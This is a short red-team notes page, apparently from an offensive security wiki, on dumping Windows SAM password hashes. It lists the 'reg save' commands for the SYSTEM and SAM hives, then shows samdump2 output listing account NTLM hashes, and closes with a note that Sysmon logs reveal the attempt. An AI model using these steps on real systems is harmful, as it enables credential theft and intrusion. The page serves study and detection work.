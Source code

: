 ```yaml
---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---
```


# Dumping Hashes from SAM

## Execution

Dumping the registry hives required for hash extraction:

{% tabs %}
{% tab title="attacker@victim" %}
```text
reg save hklm\system system
reg save hklm\sam sam
```
{% endtab %}
{% endtabs %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% tabs %}
{% tab title="attacker@local" %}
```text
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endtab %}
{% endtabs %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

